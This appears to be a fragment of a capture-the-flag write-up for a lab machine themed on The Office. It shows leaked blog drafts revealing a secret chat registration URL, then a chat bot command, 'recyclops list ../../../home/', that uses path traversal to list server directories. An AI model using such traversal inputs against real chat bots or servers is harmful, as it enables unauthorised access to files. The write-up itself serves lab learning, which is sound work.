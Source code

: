 ![](https://i.imgur.com/h5IKW6U.png)
http://office.paper/?static=1
```
test
Micheal please remove the secret from drafts for gods sake!
Hello employees of Blunder Tiffin,
Due to the orders from higher officials, every employee who were added to this blog is removed and they are migrated to our new chat system.
So, I kindly request you all to take your discussions from the public blog to a more private chat system.
-Nick
# Warning for Michael
Michael, you have to stop putting secrets in the drafts. It is a huge security issue and you have to stop doing it. -Nick
Threat Level Midnight
A MOTION PICTURE SCREENPLAY,
WRITTEN AND DIRECTED BY
MICHAEL SCOTT
[INT:DAY]
Inside the FBI, Agent Michael Scarn sits with his feet up on his desk. His robotic butler Dwigt….
# Secret Registration URL of new Employee chat system
http://chat.office.paper/register/8qozr226AhkCHZdyY
# I am keeping this draft unpublished, as unpublished drafts cannot be accessed by outsiders. I am not that ignorant, Nick.
# Also, stop looking at my drafts. Jeez!
```
I have an another link, I have to add chat.office.paper to my hosts file.
http://chat.office.paper/register/8qozr226AhkCHZdyY

![](https://i.imgur.com/W4y6shA.png)

# rocket chat
This CTF is so fun :D
NOOO, GOD! NO, GOD, PLEASE, NO! NO! NO!
![](https://i.imgur.com/yAWGgNN.png)
I have something to do with the bot.
![](https://i.imgur.com/okXOupZ.png)

I can't upload files in the chat with the bot.
![](https://i.imgur.com/JfzMvu1.png)
This is interesting.
```sh
recyclops list sale
```
-rw-r--r-- 1 dwight dwight 158 Sep 15 13:03 portfolio.txt
![](https://i.imgur.com/Lel2Lam.png)
```sh
recyclops list ../../../home/
```
total 0
drwxr-xr-x. 3 root root 20 Jan 14 06:50 .
dr-xr-xr-x. 17 root root 244 Jan 17 11:37 ..
drwx------ 11 dwight dwight 294 Feb 5 14:46 dwight
